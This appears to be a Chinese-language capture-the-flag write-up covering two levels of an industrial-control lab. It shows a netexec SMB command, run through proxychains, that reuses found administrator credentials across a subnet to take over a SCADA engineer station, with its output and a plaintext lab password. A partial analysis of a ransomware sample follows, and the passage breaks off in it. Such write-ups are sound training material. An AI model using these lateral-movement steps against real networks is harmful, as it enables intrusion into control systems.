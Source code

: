## 第三关 | SCADA.txt

关卡剧情：
尝试接管 SCADA 工程师站，并启动锅炉。

---

从“SCADA.txt”中获取到管理员凭据：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/9dc127dfc2cd9640.png)

直接使用管理员凭据进行横向：

```console
root@kali-server:~# proxychains4 -q nxc smb 172.22.26.0/24 -u Administrator -p IYnT3GyCiy3
SMB         172.22.26.11    445    WIN-SCADA        [*] Windows 10.0 Build 20348 x64 (name:WIN-SCADA) (domain:WIN-SCADA) (signing:False) (SMBv1:False)
SMB         172.22.26.11    445    WIN-SCADA        [+] WIN-SCADA\Administrator:IYnT3GyCiy3 (Pwn3d!)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

登录 SCADA 工程师站，并启动锅炉，获取到 flag：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/bb967ec3a601d3ba.png)

flag：

```
flag{bcd080d5-2cf1-4095-ac15-fa4bef9ca1c0}
```

## 第四关 | 勒索病毒解密

关卡剧情：
尝试获取 SCADA 工程师站中的数据库备份，并分析备份文件是否泄漏了敏感数据。

---

> 注：先让远程桌面全屏，然后使用 Win + D 快捷键回到桌面。

主机中的文件被勒索病毒加密了：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/ec51a7d2d4a68cd9.png)

在桌面中查看到一个被加密的文件 `ScadaDB.sql.locky` 和勒索信息。

在 C 盘找到勒索病毒程序 Lockyou.exe：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/c852fd9f65518362.png)

使用 dnSpy 分析程序，该程序使用了 AES 加密文件：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/92b730c78a483c67.png)

从指定的服务器上获取了 encryptedAesKey 和 privateKey 文件内容，赋值给变量 AES_KEY_ENC 和 PRIVATE_KEY。
